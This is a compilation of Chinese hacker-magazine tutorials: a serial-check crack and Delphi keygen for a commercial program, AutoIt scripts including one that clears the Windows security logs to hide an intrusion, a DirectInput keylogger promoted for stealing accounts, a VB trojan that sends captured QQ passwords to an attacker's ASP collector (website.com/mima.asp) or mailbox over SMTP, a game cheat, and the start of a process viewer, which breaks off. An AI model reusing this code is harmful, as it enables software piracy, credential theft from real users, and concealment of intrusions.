当程序执行到 `004D348E` 时，堆栈信息有所变换了，出现了我们输入的假注册码信息，如图9。这时就要留意了，一般注册算法就会在这个附近出现。根据经验来看，一般注册算法会在 `004D348E` 后的第一个 `call` 指令处，而关键跳转则会出现在 `004D348E` 后跳向注册失败信息的跳转指令上。先不管这些，我们向下按 F7 进行单步进入，也就是进入 `004D3491` 处的 `call 004D8300` 指令，来到 `004D8300` 处进行分析。


图9


图10

- 第五步，来到 `004D8300` 后进行 F8 单步调试，如图10所示。当程序运行到 `004D832B` 时出现了一个 `cmp` 指令进行比较，然后就是一个 `jnc` 跳转。一般遇到了这样的比较，后面接跳转的地方我们都要格外注意，因为这很有可能是和注册算法有关的地方。

“Cmp eax,9” 是将 eax 寄存器中的数字和 9 进行比较，我们来看看 eax 中的数值是多少呢？在图10中我们看到是十六进制的 A，转换成十进制也就是 10，正好是我们输入的假注册码的位数。也就是说这里是在判断我们输入的注册码是不是 9 位的，如果是的话则继续进行算法注册，如果不是则跳转到下面。通过分析可以得知，注册码必须是 9 位才可以进行正常的注册。现在我们按 Ctrl+F2 重新加载程序进行调试，这次输入的注册码为“123456789”，正好是九位的注册码来进行调试，当再次运行到 `004D832B` 时，通过判断后继续执行算法。

- 第六步，下面就要进行算法分析了，可以说后面的反汇编代码就是整个注册算法了，我们可以通过边阅读边调试的方法来进行分析，分析如下：

```asm
004D8330 | 8B45 FC      mov    eax,dword ptr [ebp-4] // 取注册码
004D8333 | 33C9         xor    ecx,ecx
004D8335 | 8A08         mov    cl,byte ptr [eax] // 取注册码第一位ASCII值
004D8337 | 8BC1         mov    eax,ecx
004D8339 | 8B55 FC      mov    edx,dword ptr [ebp-4]
004D833C | 0FB672 03    movzx  esi,byte ptr [edx+3] // 取注册码第四位ASCII值
004D8340 | 03C6         add    eax,esi // 将注册码第一和四位ASCII值相加
004D8342 | 83E8 60      sub    eax,60 // 将结果减60，也就是转为十进制数
004D8345 | 83F8 08      cmp    eax,8 // 将结果和8进行比较
004D8348 | 7E 3C        jle    short 004D8386 // 结果小于0则跳出算法
004D834A | 8BC1         mov    eax,ecx
004D834C | 8B55 FC      mov    edx,dword ptr [ebp-4]
004D834F | 0FB652 02    movzx  edx,byte ptr [edx+2] // 取注册码第三位
004D8353 | 03C2         add    eax,edx // 将注册码第一和三位ASCII值相加
004D8355 | 03C6         add    eax,esi // 将上面结果和注册码第四位ASCII值相加
004D8357 | 2D 90000000  sub    eax,90 // 将结果减90，也就是转为十进制数
004D835C | B9 0A000000  mov    ecx,0A // 将结果除10
004D8361 | 99           cdq
004D8362 | F7F9         idiv   ecx // 将结果的商赋值给EAX，余赋值给EDX
004D8364 | 8B45 FC      mov    eax,dword ptr [ebp-4] // 取注册码
004D8367 | 0FB640 05    movzx  eax,byte ptr [eax+5] // 取注册码第六位ASCII值
004D836B | 83E8 30      sub    eax,30 // 将结果减30，也就是转为十进制数
004D836E | 3BD0         cmp    edx,eax // 比较注册码第六位和余数
004D8370 | 75 14        jnz    short 004D8386 // 不相等则跳出注册算法
004D8372 | 8B45 FC      mov    eax,dword ptr [ebp-4] // 取注册码
004D8375 | 8078 01 35   cmp    byte ptr [eax+1],35 // 取注册码第二位与35比较
004D8379 | 76 0B        jbe    short 004D8386 // 小于等于则跳出注册算法
004D837B | 8B45 FC      mov    eax,dword ptr [ebp-4] // 取注册码
004D837F | 8078 04 33   cmp    byte ptr [eax+4],33 // 取注册码第五位与33比较
004D8382 | 73 02        jnb    short 004D8386 // 大于则跳出注册算法
```

通过上面对算法的反汇编代码的阅读与分析，可以得到以下的总结：

- 注册码为九位字符；
- 注册码第一位与第四位之和要大于 8；
- 注册码的第一、三、四位之和除 10 取余数必须与第六位相等；
- 注册码第二位必须大于 5；
- 注册码第五位必须小于 3；
- 注册码的其它位则没有限制。

这是典型的序列号形式验证，有了算法后那么剩下的就是编写注册机了。

### 第二部分：编写注册机

注册机可以使用任何一种你熟悉的计算机语言来编写，我就使用 Delphi 来演示如何编写注册机吧。我们通过上面的算法发现，如果注册码全是数字的，则注册机编写起来就比较方便了。首先我们定义 9 个整型变量来分别代表注册码的九位：`var one,two,three,four,five,six,seven,eight,nine:Integer;` 然后开始注册算法过程。首先注册码的第一位取小于 9 的一个随机数，然后使第一位与第四位之和要大于 8，我们可以让注册码的第四位等于 9 减去注册码第一位。

```delphi
one:=Random(9);
four:=9-one;
```

注册码的第三位可以任意取值，这里我们就取小于 10 的随机数：`three:=Random(10);`；第六位需要等于注册码第一、三、四位之和除 10 取余数：`six:=(one+three+four) mod 10;`。注册码第二位必须大于 5，注册码第五位必须小于 3，因此分别取大于 5 和小于 3 的随机数。

```delphi
two:=5+Random(5);
five:=Random(3);
```

其它位数的注册码没有限制，可以任意赋值，这里我们就都取小于 10 的随机数了。

```delphi
seven:=Random(10);
eight:=Random(10);
nine:=Random(10);
```

现在注册机的算法部分就已经写完了，下面使用 Delphi 创建一个窗体，添加一个文本框和按钮控件，窗体设计如图11所示。双击“生成注册码”按钮进行代码的编写，将上面算法的核心代码复制过来就可以了，最后再将注册码输出到“注册码”文本框：`edt1.Text:=inttostr(one)+inttostr(two)+inttostr(three)+inttostr(four)+inttostr(five)+inttostr(six)+inttostr(seven)+inttostr(eight)+inttostr(nine);` 这样一个简单的注册机就编写完成了。编译运行一下来看看效果吧，每点击一下“生成注册码”后就会生成一个随机的注册码了，如图12，使用生成的注册码进行注册，如图13，已经成功注册了。


算法分析和注册机编写到这里也就结束了，多加练习相信你也可以编写出属于自己的注册机的。

（文章中涉及到的 Free Internet Window Washer 2.8 以及编写好的注册机和相关代码已经收录在了光盘中）


## 脚本从入门到入魔——AutoIt初体验

BaseNet

不管是对于刚入“黑”道的脚本小子，还是那些网络中的“牛”人高手，掌握几种实用、简单的脚本语言都是必须的……AutoIt 是很久以来基于 Windows 图形界面的自动化处理脚本语言……很多有意思的系统管理程序都是由 AutoIt 脚本编译而成的。

```autoit
Enum $const1=1,$const2,$const3
Enum $const1,$const2,$const3
```

第一句中因为常量 `$const1` 的值被初始化为 1，所以后面的常量依次加 1……第二句中因为 `$const1` 没有赋值，所以其值为 0……AutoIt 中也有数组的概念。

### 一、AutoIt初级班

我们先通过几个名词来理解其特点和一些规则，不管是程序语言还是脚本语言，都是和计算机进行对话……

#### 1、脚本与程序

脚本一般都是指根据某种语法规则编写的具有特定格式的文本文件，比如 VBScript、JScript、ASP、PHP、CGI、Perl 等……脚本多用于系统管理，而程序多用于较大的软件工程。

### 2、AutoIt与C语言

AutoIt 与 C 语言有一定关系，变量命名规则与 C 语言类似但变量前需加 `$` 符号……常量使用 const 与 enum，未初始化时按 0、1……N 递增。

### 3、AutoIt与VbScript

AutoIt 与 VBScript 在控制结构、过程调用等方面相似，也可用 dim 定义变量……其强大在于函数库与开源特性。

### 4、AutoIt环境的建立

AutoIt 环境建立较简单，本质通过解释器执行；类似 VBScript 依赖宿主程序，可通过对应接口运行。安装宿主程序后即可完成环境建立，并附带多种实用工具。

### 二、脚本中级班

在上面已经介绍了基础知识，接下来通过实例熟悉简单功能。

### 1、显示Hello world


要使用 AutoIt 来显示 hello world，只要使用和 VBS 相同的函数 `msgbox` 就可以了：`msgbox(0,"HackerXfiles.net","hello world!",10)`。第一个参数 0 表示只显示确定按钮，`HackerXfiles.net` 指的是标题，`hello world!` 是要显示的内容，后面的 10 指的是超时时间，如果我们在 10s 内没有进行操作，就自动退出脚本程序。将这句代码保存为 1.au3，双击运行后如图1所示。

```autoit
; AutoIt output testing......
dim $return ; 定义一个变量 return 用于保存 msgbox 的返回值
$return = msgbox(1,"Output testing","让系统来判断您对我作了什么！",5)
select
  case $return=1
    msgbox(0,"Output testing","您点了确定")
  case $return=2
    msgbox(0,"Output testing","您点了取消")
  case $return=-1
    msgbox(0,"Output testing","您的选择时间超过5秒")
endselect
```

### 2、比VbScript简单的运行方式

在使用 VBScript 运行某些程序的时候，首先需要创建模型对象后才能调用 run 方法，而使用 AutoIt 只需要使用 run 函数就可以了。基于结构化编程应该算是 AutoIt 的一个优势，这比 VBScript 要方便得多。

我们编写如下代码：`run("cmd.exe /k net user")`，并将文件保存为 2.au3 就行了。除了可以使用 run() 外，还可以使用 `ShellExecute()`。函数名虽然与 Windows 的 API 函数相同，但是 AutoIt 的语法要求不是太高，它对大小写并不敏感，同时使用该函数还可以打开 Windows 所能关联的大部分文件，比如编辑 `c:\test.txt`，我们就可以使用下面的代码：`shellexecute("c:\test.txt","",@scriptdir,"edit")`。

#### 3、学会编译程序


因为我们安装了 AutoIt 的解释器，所以上面的代码才会执行；如果没有安装的话，Windows 顶多只是弹出对话框询问我们使用哪个程序来打开。这样就算我们写出了一些脚本也是没有意思的，因此我们需要将脚本程序转化成 Windows 下可以识别的 PE 文件，这就需要编译这道工序了。方法很简单，在编写好的 au3 文件上点右键，根据需要来选择编译类型，一般我们选择“编译脚本（带进度）”就可以了，如图2。如果想设置编译选项，可以选择“编译脚本（带选项）”，就会弹出选项窗口，如图3。


这个例子主要是通过 `msgbox` 的返回值来判断，1 表示用户单击的是确定按钮，-1 表示超时，2 表示用户单击的是取消按钮。通过返回值，我们让程序与用户联系在了一起，双击执行一下，如图4所示。相对于输出函数 `msgbox`，输入函数 `inputbox` 的参数比较多，一般来说我们用到的参数只有两个，一个是标题，一个是提示信息，我们再举个例子来说明，将下面的代码保存为 4.au3。

#### 4、学会交互操作

每一种编程语言都会有交互性操作，这个特点在脚本中算是一个重要的组成部分。前面提到 `msgbox` 函数一般用于输出一些信息，而 `inputbox` 函数一般用于输入一些信息。

```autoit
; AutoIt input testing
dim $test ; 定义一个变量
$test=inputbox("Input testing","请输入随便输入内容，体验AutoIt带来的快感:")
msgbox(0,"Input testing","你输入的内容:"&$test)
```


双击运行后如图5所示，通过上面的两个例子，我们明白了在 AutoIt 中是如何输入信息的，也明白了 AutoIt 与 Vbscript 一样只有一种数据类型，不管你输入什么类型的数据，它都能够处理。另外，就是 AutoIt 和 Vbscript 一样，字符串与变量的连接需要使用 `&` 符号。由此，我们可以得出一个结论，AutoIt 确实要比 VBS 简单易学。上面介绍了这么多，其实都是一些入门的东西，“接下来才是见证奇迹的时刻”！


### 三、AutoIt 高级班

### 1、编写比 Vbscript 更简单的 QQ 自动登录程序

使用 VBS 脚本编写的 QQ 自动登录程序需要通过建立对象来搞定，而使用 AutoIt 只要调用简单的几个函数就可以搞定。

```autoit
;QQ自动登录AutoIt脚本
Dim $qqpath="D:\Program Files\Tencent\QQ\qq.exe" ;QQ路径
Run($qqpath)
Sleep(1000) ;延迟1s
WinActive("QQ用户登录") ;激活窗口
Send("{tab}")
Send("88888888") ;QQ号码
Send("{tab}")
Send("666666") ;QQ密码
Send("{enter}") ;登录
```

上面的代码中只使用到了四个函数，`Send` 函数类似于 Vbscript 中的 `SendKeys`，但是它的功能远远比 `SendKeys` 要强大得多，它可以模拟除 Win 键以外几乎所有的键盘按键，这在自动化批量处理某些安装程序时是非常有用的，详见说明手册。

### 2、走的不留下痕迹——日志删除示例

日志删除是黑客在入侵完成后必须要做的一件事情，网上有 VBS 版的日志删除工具，我们使用 AutoIt 也能实现。不管是批处理，还是 Vbscript，或者是 AutoIt，要想实现系统管理功能，就必须要与系统提供的管理对象相关联。使用 AutoIt 编写的很多脚本与 Vbscript 的实现方法都基本相同。

```autoit
;AutoIt日志删除工具函数代码
Func _EventLogClear()
  Global $mylogs[3] = ["application","system","security"]
  Local $strComputer,$objWMIService,$logs,$colLogFiles,$objLogFile
  $strComputer = "."
  $objWMIService = ObjGet("winmgmts:{impersonationLevel=impersonate,(Backup)}!\\" & $strComputer & "\root\cimv2")
  For $logs in $mylogs
    $colLogFiles = $objWMIService.ExecQuery("Select * from Win32_NTEventLogFile where LogFileName='" & $logs & "'")
    For $objLogFile in $colLogFiles
      $objLogFile.ClearEventLog()
    Next
  Next
EndFunc
```

上面的代码是 AutoIt 对 WMI 的一次调用，通过 `ObjGet` 函数得到对象句柄。如果要进行一些注册表操作，一般可以使用 `\root\Default`，而执行一些安全操作则使用 `\root\Security`。

#### 3、轻松制作密码验证程序

在以前的 X 档案上曾经有文章介绍了使用映像劫持来给 cmd 加锁，文中使用 MFC 编写了一个密码验证程序，实在是有些“大材小用”了。现在有了 AutoIt，我们就可以轻松制作出 GUI 界面的密码验证程序了。

```autoit
#include <GUIConstants.au3>
$Form3 = GUICreate("黑客文件系统", 250, 99, 309, 248)
GUICtrlCreateLabel("请输入密码:", 8, 12, 77, 17)
$MaskEdit1 = GUICtrlCreateInput("", 8, 32, 233, 21)
$Button1 = GUICtrlCreateButton("&OK", 86, 64, 75, 25)
$Button2 = GUICtrlCreateButton("&Cancel", 167, 64, 75, 25)
GUISetState(@SW_SHOW)
While 1
    $msg = GuiGetMsg()
    Select
        Case $msg = $GUI_EVENT_CLOSE
            ExitLoop
        Case $msg = $Button1
            Button1()
        Case $msg = $Button2
            Exit
            ExitLoop
    EndSelect
WEnd
Func Button1()
    If GUICtrlRead($MaskEdit1) = "hackerxfiles" Then
        Run("cmd.exe")
    Else
        Exit
    EndIf
EndFunc
```

`#include` 是类似于 C 语言的预处理功能，将 `GUIConstants.au3` 的代码复制到当前位置，然后建立一个窗口，通过循环接收窗口事件消息并作出响应。确定后自动验证密码，如果密码为 `hackerxfiles` 就会运行 `cmd.exe`，否则退出脚本。

剩下的事情就是将其编译成 exe 文件，然后使用映像劫持，或者将注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor` 下的 `Autorun` 键值指向制作好的 exe 文件。

这只是一个 GUI 界面最简单的例子。AutoIt 的强项在图形界面的批量处理，还可以制作更漂亮、更复杂的界面。


通过上面几个实例，我们可以看出 AutoIt 完全可以作为一种系统管理脚本与 Vbscript 并驾齐驱。每一种事物都有其存在的理由，在两种事物存在交集时需要根据需求作出选择。

> （文章中涉及到的 AutoIt 以及相关代码，已经收录在了光盘中）

## 使用 DirectInput 来进行键盘监控

DirectInput 是 DirectX 的一部分，常被用于 D3D 游戏中实现键盘、鼠标和手柄等。它并不是“正宗”的键盘监控方法，但主动防御系统通常不过问，且效果不错。

### 一、关于 DirectInput

DirectInput 并不依赖 Windows 消息机制，它可以“直接”访问硬件，采用缓冲区方式获取输入状态。与 Windows 消息机制不同，例如长按按键时，消息机制按重复率触发，而 DirectInput 会持续在缓冲区中标记按下状态，直到释放。

DirectInput 能够成为键盘监控主角的关键在于：窗体失去焦点时仍能捕捉按键。下面将介绍如何使用 DirectInput 实现键盘监控。

### 二、开工前的准备

在开始编程前，首先需要 DirectX SDK。若使用 Visual C++ .NET，使用 March 2009 就可以了；而如果是 VC6 的话，还是用 Oct 2004 吧，因为很多 VC7 之后的编译特性在 VC6 中都没有，因此使用 VC6 编译 March 2009 只会不断报错。光这样还不够，如果使用 VC6 的话，还必须编译成 Release，而如果是 Debug 的话它还是会报错，本文我就选择使用了 VC6。

首先在“工具”->“选项”中把 SDK 的 include 和 lib 目录包括进来，然后在“工程”->“设置”中添加库文件（记得是 Release）：`winmm.lib`、`dxguid.lib`、`dinput8.lib`（或者是在源代码中 `#pragma comment` 也可以），如图1。接下来新建一个 MFC 对话框程序，不要按钮，再拖进去一个 edit，界面就算完成了。

```cpp
~MyDInput(){          //析构函数
    timeKillEvent(timerID);   //停掉多媒体计时器
    pDKB->Release();          //释放资源
    pDI->Release();
}

void static CALLBACK DInput_TimeProc(UINT uID,UINT uMsg,DWORD dwUser,DWORD dw1,DWORD dw2); //回调函数，必须是静态成员

//////mydinput.cpp//////
#include "stdafx.h"
#include "mydinput.h"

void onkeydown(char*); //用来在窗体的edit上显示按下了什么键
```


图1

### 三、源代码的编写

DirectInput 的初始化需要经过这样几个步骤：

- 建立 DirectInput 对象  
- 建立输入装置对象  
- 设定格式  
- 设定程序协作等级  
- 调用输入装置  

具体的操作都在 `mydinput.h` 和 `mydinput.cpp` 中，我都做了详细的注释，完整源代码如下：

```cpp
//////mydinput.h//////
#include <dinput.h>      //SDK的头文件
#include <Mmsystem.h>    //我用到了多媒体定时器

#define KEYSTATE_UP false   //自己定义的按键状态
#define KEYSTATE_DOWN true

class MyDInput{
private:
    LPDIRECTINPUT8 pDI;          //第一步里的DirectInput对象
    LPDIRECTINPUTDEVICE8 pDKB;   //第二步的输入装置对象
    bool keystate[256];          //缓冲区
    int timerID;                 //定时器id

public:
    MyDInput(HINSTANCE hinst,HWND hwnd); //构造函数
```

```cpp
MyDInput::MyDInput(HINSTANCE hinst,HWND hwnd){
    HRESULT result; //函数返回的结果

    result = DirectInput8Create(hinst, DIRECTINPUT_VERSION,
        IID_IDirectInput8, (void**)&pDI, NULL);
    //第一步，创建DirectInput设备

    if(result != DI_OK){
        MessageBox(NULL,"DirectInput8Create 失败!","123",MB_OK);
        return;
    }

    result = pDI->CreateDevice(GUID_SysKeyboard,
        &pDKB, NULL);
    //第二步，创建输入装置对象

    /* ... 指针，固定为NULL; */

    if(result != DI_OK) {
        MessageBox(NULL, "pDI->CreateDeviceEx 失败!", "123", MB_OK);
        return; //false;
    }

    result = pDKB->SetDataFormat(&c_dfDIKeyboard);
    //第三步，设定数据格式，因为鼠标、键盘、手柄有不同的控制方式

    if(result != DI_OK){
        MessageBox(NULL, "pDKB->SetDataFormat 失败!", "123", MB_OK);
        return; //false;
    }

    result = pDKB->SetCooperativeLevel(hwnd,
        DISCL_BACKGROUND | DISCL_NONEXCLUSIVE);
    //第四步，设定协作等级，这步最关键

    if(result != DI_OK) {
        MessageBox(NULL, "pDKB->SetCooperativeLevel 失败!", "123", MB_OK);
        return; //false;
    }

    result = pDKB->Acquire();
    //第五步，调用输入装置

    if(result != DI_OK) {
        MessageBox(NULL, "pDKB->Acquire 失败!", "123", MB_OK);
        return; //false;
    }

    for (int i=0; i<256; ++i)
        keystate[i] = KEYSTATE_UP; //初始化按键状态

    timerID = timeSetEvent(30, 0, (LPTIMECALLBACK)DInput_TimeProc,
        DWORD(this), TIME_PERIODIC|TIME_CALLBACK_FUNCTION);

    //每30ms以最高精度（第二个参数0）周期性调用（最后一个参数）
    //DInput_TimeProc，并传递参数 DWORD(this)
    //return true;
}
```

在介绍 `DInput_TimeProc` 函数前，我先介绍一下 `keystate` 数组的作用。由于只要按键按下，不论什么时候查询缓冲区，都是被按下的状态，所以我们不知道究竟触发多少次 Windows 消息，因此我就采取了一个最简单的办法：不管按下有多长时间，只算作一次。这样就一定会在某些时候“失灵”，不过很少有人在输入密码或其他数据的时候靠一直按键来输入同一个字符。具体的操作方法就是：当这一次查询到某个按键按下时，先看一下上一次查询时的按键情况，如果是按下，那么这次就不算数；如果是抬起，那么这次就是按键，并把 `keystate` 置为 `KEYSTATE_DOWN`。

```cpp
void CALLBACK MyDInput::DInput_TimeProc(UINT uID, UINT uMsg, DWORD dwUser, DWORD dw1, DWORD dw2){
    //回调函数，函数声明固定，由于有成员变量要调用，所以传递了this
    MyDInput* mydinput = (MyDInput*)dwUser;
    HRESULT result;
    char buffer[256]; //缓冲区

    result = mydinput->pDKB->GetDeviceState(sizeof(buffer), (LPVOID)&buffer);
    //获得缓冲区的数据
    if(result != DI_OK)
        MessageBox(NULL, "获得键盘状态失败!", "123", MB_OK);

    if (buffer[DIK_A] & 0x80) {
        if (mydinput->keystate[DIK_A] == KEYSTATE_UP) {
            mydinput->keystate[DIK_A] = KEYSTATE_DOWN;
            //onkeydown('a');
        }
    } else {
        mydinput->keystate[DIK_A] = KEYSTATE_UP;
    }

    if (buffer[DIK_B] & 0x80) {
        if (mydinput->keystate[DIK_B] == KEYSTATE_UP) {
            mydinput->keystate[DIK_B] = KEYSTATE_DOWN;
            onkeydown('b');
        }
    } else {
        mydinput->keystate[DIK_B] = KEYSTATE_UP;
    }

    if (buffer[DIK_C] & 0x80) {
        if (mydinput->keystate[DIK_C] == KEYSTATE_UP) {
            mydinput->keystate[DIK_C] = KEYSTATE_DOWN;
            onkeydown('c');
        }
    } else {
        mydinput->keystate[DIK_C] = KEYSTATE_UP;
    }

    if (buffer[DIK_D] & 0x80) {
        if (mydinput->keystate[DIK_D] == KEYSTATE_UP) {
            mydinput->keystate[DIK_D] = KEYSTATE_DOWN;
            onkeydown('d');
        }
    } else {
        mydinput->keystate[DIK_D] = KEYSTATE_UP;
    }

    //这里只写了abcd四个键，其他键使用DIK_xx表示
}
```

我们盗号还是绰绰有余的，我没有添加窗口的标题，在具体编写的时候大家可以自行加上，如图2、图3。


### 四、效果

效果还是不错的，但是有一点不足，就是无法知道大小写。不过通过思维+穷举，大小写应该不算是很主要的问题吧。本文到此就结束了，如有不对的地方还请大家指正。（文章中涉及到的键盘监控 KeyboardSpy 的源代码，已经收录在了光盘中）

对于一些有防范措施的程序来说，我们的 KeyboardSpy 是监控不到东西的（比如 QQ 和网上银行），但是对于别的程序和网页……

## VB 木马编写之发送的基本方法


丁维什

说道盗号木马的编写，发信是一个很重要的环节，因为这个环节关系着我们能否稳定地接收到你的“成果”，同时这也是一项最基础的技术。对于一个刚接触编程的小菜来说，不妨从发信的基本方法开始学起。

## 一、发信基本方法之ASP空间收信

很多小菜虽然不会自己编写盗号木马，但是相信都使用过别人编写的木马吧！一般的盗号木马都会提供ASP空间收信和邮箱收信两种方式，比如著名的“金狐QQ大盗”等就是如此。我先给大家介绍一下实现“ASP空间收信”的方法……

在VB中要想实现ASP空间收信，需要具备的基本条件就是要有一个支持ASP脚本的网页空间……以下就是我从金狐QQ大盗提供的ASP收信文件修改得来的代码：

```asp
<%
strLogFile="mima.txt"

QQ=request("qq")
mima=request("mima")

if QQ="" or mima="" then
  response.write "暂无信息"
  response.end
End if

StrLogText=StrLogText&"QQ:"&QQ&"----密码:"&mima
StrLogText=StrLogText&" 日期:"&date&" "&time

set f=Server.CreateObject("scripting.filesystemobject")
set ff=f.opentextfile(server.mappath("/")&"\"&strLogFile,8,true,0)
ff.writeline(chr(13)+chr(10)&StrLogText)
ff.close
set ff=nothing
set f=nothing

response.write "发送成功!"
%>
```

其中第一行代码设置变量strLogFile的值为mima.txt，意思就是把接收到的密码信息保存在ASP空间里并命名为“mima.txt”……现在我们的ASP收信文件已经准备好了，下一步就要做的就是编写发信的代码了。

本文只是向大家介绍木马发信的基本方法……主要的控件就四个：第一个是文本输入框txtqq；第二个文本输入框txtmima；登录按钮cmdlogin；最后还有一个WebBrowser控件web1……如图2。


图1


图2

把Web1这个控件的Visible属性设置为“False”，也就是“不可见”；双击“登录”按钮控件，来到代码编辑区，输入以下代码：`Web1.Navigate "http://website.com/mima.asp?qq=" & txtqq.Text & "&mima=" & txtmima.Text`，其中“http://website.com/mima.asp”表示前面上传的ASP收信文件所在的地址……如果没什么错误的话，账号和密码就已经发送到了mima.asp，并被保存在mima.txt这个文件里了。我们来看看是不是这样，直接在IE的地址栏里输入我们保存密码的文件地址“http://website.com/mima.txt”，结果如图3所示，已经成功地接收并保存了密码。

……找到了。网易提供的免费邮箱如果是几年前就申请的账号，那么是支持SMTP（简单邮件传输协议）的，但是最近几年开始，可能是为了打击木马病毒等活动，大多数邮箱服务商提供的免费邮箱已经不再支持SMTP发信了。不过小菜们也不用担心，我试了几个邮箱，发信几乎人手一个的QQ邮箱仍然是支持SMTP发信服务的！


图3


图5

以上就是ASP空间收信的基本原理了，在掌握了这个基本原理后，我们就可以继续学习一些类似如何保护密码文件不被偷窥、如何躲过防火墙的保护来发信等方面的知识了，大家可以到网上搜索“QQ箱子制作”等方面的教程来学习一下。

虽然QQ邮箱支持SMTP，但是在默认情况下却是没有开启这个服务的，所以我们需要先开启QQ邮箱的SMTP服务。进入QQ邮箱后点击“设置”按钮，如图4，进入设置页面后切换到“账户”标签页……选中其下的“开启POP3/SMTP服务”，然后点击“保存更改”，这样就开通QQ邮箱的SMTP服务了，如图5（需要注意的是，刚申请的QQ邮箱需要七天以后才能开通SMTP服务）。

### 二、发信基本方法之邮箱收信

在上面我已经提到了，免费的ASP空间往往玩不了几天就会被封，真正稳定而又免费的ASP空间实在是太难找了。相对而言，使用邮箱收信就要稳定得多了。下面我就为大家介绍一下如何使用邮箱收信，以及在VB中如何发送邮件。


图4

使用邮箱收信需要具备的基本条件是需要有两个邮箱，其中必须有一个是支持SMTP发信的。虽然目前国内提供免费邮箱服务的网站多如牛毛，但是支持SMTP发信的邮箱却是已经很难找到。

本文我给大家介绍的这种使用VB进行SMTP发信的方法是调用一个现成的dll文件来发信，这种方法非常简单。SMTP发送邮件有三个要素：SMTP服务器地址、发件人邮箱地址和收件人邮箱地址。QQ邮箱的SMTP服务器地址是smtp.qq.com……

我们还是以刚才使用ASP空间收信时建立的那个VB工程为例，首先把发送邮件使用到的dll文件（smtp.dll）加入到工程的自定义资源里……来到代码编辑区的Form_Load()部分，输入以下代码：

```vb
Dim smtp() As Byte
Dim s
s = Environ("windir")
s = s + "\System32\smtp.dll"
smtp = LoadResData(101, "CUSTOM")
Open s For Binary Access Write As #1
Put #1, , smtp...
Close #1 '将发信邮箱dll复制到系统目录
```

```vb
MsgBox ("账户或密码不能为空")
Exit Sub
End If
Call SendMail(srv,user,pwd,mailfrom,mailto,title,body) '调用邮箱dll发信
```

在通用声明部分则输入以下代码：

```vb
Option Explicit

Private Declare Function SendMail Lib "smtp.dll" (...)
Private Declare Function GetSmtpError Lib "smtp.dll" (...)
```

来解释一下几个变量，在上面的代码中，变量srv是发送邮件时要用到的SMTP服务器地址……最后就是通过SendMail函数调用我们刚才释放的dll文件把邮件发送出去。

当用户点击“登录”按钮时，我们需要让程序把用户输入的账号和密码信息发送到我们的邮箱里，所以双击程序界面的“登录”控件，输入以下代码：

```vb
On Error Resume Next
Dim srv,user,pwd,mailfrom,mailto,title,body
srv="smtp.qq.com"
user="31****43"
pwd="**********"
mailfrom="31****43@qq.com"
mailto="milflover@sina.com"
title="..."
body="..."
If txtQQ.Text="" Or txtmima.Text="" Then ...
```

按F5键来运行一下程序，账号和密码都输入hackerxfiles，然后点击“登录”按钮……如图6。


图6

以上介绍的ASP空间发信和邮箱发信是木马发信中的两种基本技术，今天我就把它们做了一个简单的总结，希望能对小菜们有所帮助。


## 简简单单来找茬
### ——挖地鼠与QQ找茬游戏程序

自从看了去年第10期杂志的“揭秘外挂开发全过程——QQ对对碰角色版辅助程序开发实录”一文后，心里一直很痒痒……我们来看一下今天又是谁会惨遭毒手——QQ找茬游戏。

这个游戏比较好弄，就是根据屏幕上的两张图画相对同一位置的颜色不同来找出两者的差别，使用到的API只有一个，`COLORREF GetPixel(HDC hdc,int nXPos,int nYPos)`，它返回屏幕像素(X,Y)坐标处的颜色值……代码如下：

```vb
HWND hwnd=GetDesktopWindow()
HDC dc=GetWindowDC(hwnd) //就是这个
```

接下来就是比较了，就从两个图片左上角的一个像素点开始，我电脑的屏幕分辨率为1024×768，这个点的坐标为(9,193)，那么第二个图片的相对同一点坐标为(9+509,193)，也就是说两张图片水平位移509个像素点。这个数值得来很不容易，有人说有技巧，其实技巧就是用肉眼分辨加程序测试——把这个坐标保存起来，我们称之为基准点。

```cpp
int basex=9;
int basey=193;
```

从该点开始向右取点比较，没有必要把图片上所有的点都比较下来，我们取距离为10像素就行。每隔10像素就取点比较一下，当到了第一图片的边缘，再比较下一行，可以使用两个for循环嵌套，具体的代码如下：

```cpp
while(1) // 因为游戏画面在不断刷新，为了防止我们标出来的点被擦掉，本着实用的原则，使用了一个死循环
{
    int y=basey; // y固定点
    for(; y<=640; y+=10) // 到640时为图片下边缘
    {
        int x=basex; // x固定点
        for(; x<=507; x+=10) // 到507为第一图片边缘
        {
            COLORREF leftclr=::GetPixel(dc,x,y);
            COLORREF rightclr=::GetPixel(dc,x+509,y);
            if(leftclr != rightclr) // 找到不同点
            {
                ::Ellipse(dc,x-2,y-2,x+2,y+2); // 在此处画个圈
                printf("DrawDifferentPoint:x:%d,y:%d,leftclr:%x,rightclr:%x\n",x,y,leftclr,rightclr);
            }
        }
    }
}
```


图1

好了，把程序编译成EXE文件，然后双击运行（只见屏幕上闪出一个黑乎乎的窗口，数值狂闪，路过的一哥们瞥见了吓得一哆嗦：“哥们，你在编病毒啊！”）。我测试了一下，感觉还可以，就是标记的圈圈不怎么明显，那么还是使用红色画笔来画吧。

```cpp
HPEN hpen=::CreatePen(PS_SOLID,5,RGB(255,0,0));
::SelectObject(dc,hpen);
```

把它放在while(1)前面，重新再来一局，Perfect，太完美了，如图1。现在就去找认识的MM玩去吧！（文章中涉及到的程序源代码已经收录在了光盘中）

## 编写一个简单的进程查看器

Ccy浩然

我初学编程，接触VC也没有多长的时间，本文就尝试来编写一个进程查看器，这样当病毒屏蔽了系统的任务管理器后，我们的工具就可以起到一定的作用了。

# 黑客编程


图1

制作好的主界面上右键点击这个控件进行查看，在VC中被定义成了一个宏，我们可以在resources.h文件中看到它的定义……


图2

好了，现在我们给它绑定一个变量，在VC的工具栏选择“查看”-“建立类向导”……在“Member variable name”栏中输入要添加的变量名（我添加的是m_ListCtrl），点击“OK”就行了。

首先打开VC++6.0，我推荐大家使用VC++9.0（包含在Visual Studio 2008中）……先建立一个MFC应用程序工程，我取名叫做ListControl，再来设计程序的主界面……如图1。

为什么要这样命名呢？其实这是根据匈牙利命名法来命名的……变量名添加好了，接下来就是编写代码了……


图3


图4

程序主界面设计好了，接下来就可以编写代码了，先给我们添加的List控件绑定一个变量，将它和控件的ID绑定在一起……

```cpp
m_ListCtrl.SetExtendedStyle(LVS_EX_FULLROWSELECT | LVS_EX_GRIDLINES);
m_ListCtrl.InsertColumn(0,_T("进程名"),LVCFMT_LEFT,145);
m_ListCtrl.InsertColumn(1,_T("PID"),LVCFMT_LEFT,82);
```

```cpp
char buf[100], buff[100];
PROCESSENTRY32 pe;
BOOL process = Process32First(hProcess,&pe);
while(process)
{
    wsprintf(buf,"%s",pe.szExeFile);
